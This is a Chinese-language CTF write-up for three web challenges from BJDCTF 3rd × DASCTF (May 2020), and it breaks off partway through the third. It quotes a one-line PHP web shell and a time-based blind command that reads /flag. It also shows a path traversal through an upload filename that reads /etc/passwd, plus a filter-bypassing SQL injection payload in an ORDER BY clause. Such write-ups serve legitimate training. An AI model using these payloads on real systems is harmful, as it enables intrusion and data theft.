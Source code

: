 ```yaml
---
layout: post
title: BJDCTF 3rd × DASCTF May Web Writeup
data: 2020-05-22
categories: Writeups
tags: 
 - CTF
 - Writeup
description:  
excerpt_separator: ""
---
```


# 帮帮小红花

## 题目描述

上来是个黑页，给了木马的内容：

```php
<?
php shell_exec($_GET["imagin"]);?
>
```

## 解题思路

木马没有回显，试着ping一下DNSlog，没反应，然后试了curl也不行，把回显打出去应该是没什么希望了。

不过其实题目没有对关键字做什么过滤，所以我们可以用时间盲注的思路来获得命令结果。

而且题目给了flag的位置，可以命令行执行这样的PHP代码：

```bash
php -r '$flag=file_get_contents("/flag");if (ord($flag[0])==66) {sleep(1);}'
```

来获得flag。

## 备注

1. 可能时间盲注的经验还是不太多，而且这道题网络不是很稳定，脚本写得很吃力。

---

# gob

## 题目描述

刚打开是个登录界面，随便输入一个账号密码登录，进入之后有两个功能，show和upload。

## 解题思路

先上传一张图片试试，成功后有回显：

```
{admin hhhh ./uploads/3e104cae6401d2576676b2c68973154d/foo.jpeg ed1fb76fd040aa32984affdbbcf255f2}上传成功！您的路径是foo.jpeg
```

然后在show功能下可以看到上传的图片。在后面的测试中发现文件上传没有任何过滤，不过即使上传了PHP文件也没什么用，它会被当作TXT直接返回。

然后发现了show的图片显示利用了data协议，所以考虑利用它读文件。

而且当上传的文件名已存在时，会有回显提示，但不会修改文件内容。同时接下来使用show功能时，显示的图片是刚刚所上传的文件名所指向的文件。

可以试着目录穿越，先在文件上传时抓包修改上传文件的文件名：

```
../../index.php
```

没成功，不死心，又试了一次/etc/passwd，居然成功了。

再试着读一下/flag，得到flag。

## 备注

1. 不太明白，难道说业务逻辑文件和用户上传文件不在同一个服务器？

---

# Multiplayer Sports

## 题目描述

题目是这样子的：

![1](https://glyuan419.github.io/uploads/posts/2020-05-22-BJDCTF-3rd-Web/Multiplayer Sports01.png)

## 解题思路

看页面源码发现又SQL注入，位置是order by：

```
?by=desc
```

会改变右边表格的顺序。接下来就是寻找利用方式，拦截了很多字符：

```
<|>|=|"|'|and|info|substr|where .etc
```

可以利用位异或符号：

```
select * from user order by id ^ 0
```

修改最后一位为0或1会有不同的回显。

"="可以用case语句绕过，substr可以用replace()+length()函数绕过，列名的问题也比较容易绕过。至于表名，其实是猜的，也比较常见，是"user"。Payload如下：

```
?by=^(case(replace(length(replace((select group_concat(`3`) from (select 1, 2, 3 union select * from user)a), 0x332c, 0x00)), 15, 200))when(200)then(1)else(0)end) limit 1,1;
```

0x332c对应的是"3,"，也就是"3,\<password>"的开头，另外首先要以类似的方法获得password的长度。

脚本跑出来密码是："T1Me cTRol13r"。

用admin登录后多了两个功能，getFlag和Request。点击getFlag。他让我爬，爬爬爬。再看看Request：

![2](https://glyuan419.github.io/uploads/posts/2020-05-22-BJDCTF-3rd-Web/Multiplayer Sports02.png)

url输入www.baidu.com，有报错：

![3](https://glyuan419.github.io/uploads/posts/2020-05-22-BJDCTF-3rd-Web/Multiplayer Sports03.png)

golong？
